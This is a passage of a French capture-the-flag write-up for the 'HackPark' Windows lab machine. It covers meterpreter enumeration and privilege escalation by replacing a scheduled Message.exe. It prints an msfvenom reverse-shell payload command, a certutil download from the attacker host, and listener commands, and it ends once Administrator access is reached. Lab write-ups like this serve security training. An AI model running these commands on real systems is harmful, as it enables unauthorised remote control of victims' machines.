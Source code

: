 ```
``` shell.exe ```

Le meterpreter doit être en place maintenant.

Récupérer les informations de l'ordianteur : 
```sysinfo

Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
**OS              : Windows 2012 R2 (6.3 Build 9600).**

## What is the name of the abnormal service running?

Utiliser la commande pour voir tous les services en cours :  ``` ps ```

On peut voir que le service de tâche répétées est activé Wscheduler 

**WindowsScheduler**

## What is the name of the binary you're supposed to exploit? 

ouvrir un shell dans le meterpreter avec la commande 
``` shell```

Se rendre dans le fichier C:\Program Files (x86)\SystemScheduler\Events
``` cd C:\Program Files (x86)\SystemScheduler\Events```

Afficher le contenu du fichier de log.txt "20198415519.INI_LOG.txt"
``` type 20198415519.INI_LOG.txt ```

On peut voir que le fichier Message.exe est tout le temps executer par l'administrateur via le Scheduler donc le binaire supposé à exploité est celui ci : 
**Message.exe**

## What is the user flag (on Jeffs Desktop)?

Créer un revershell avec le nom suivant "Message.txt"
``` msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.94.166 LPORT=1234 -f exe -o Message.exe ```

Revenir un dossier en arrière : 
``` cd ..```

Modifier le nom du fichier principal concerné 
```MOVE Message.exe Message.old ```

Télécharger le fichier sur la machine distante à l'ide d'un powershell
``` certutil.exe -urlcache -f http://10.18.94.166:8000/Message.exe Message.exe  ```

Lancer un listener sur le port 1234 | Lancer un meterpreter sur le port 1234
``` nc -lvnp 1234```
``` msfconsole user multi/handler set payload windows/meterpreter/reverse_tcp set lport 1234 ```
Attendre que la tâche se déclenche et que le revershell se lance | Redémarer le processus manuellement

Regarder qui on est  
```
getuid
Server username: HACKPARK\Administrator
